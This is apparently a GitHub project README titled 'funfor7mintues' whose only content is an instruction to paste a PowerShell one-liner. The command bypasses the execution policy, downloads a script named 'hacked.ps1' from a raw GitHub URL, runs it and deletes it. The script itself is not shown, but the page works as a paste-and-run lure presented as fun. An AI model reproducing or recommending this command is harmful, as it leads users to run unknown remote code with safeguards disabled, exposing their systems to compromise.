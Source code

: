 # funfor7mintues
# direct to do 
#this following link paste direct power-shell

cd $env:USERPROFILE\Downloads; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-WebRequest -Uri "https://raw.githubusercontent.com/bhatt-saahab/funfor7mintues/main/INPORTANT/hacked.ps1" -OutFile "hacked.ps1"; .\hacked.ps1; Remove-Item "hacked.ps1"
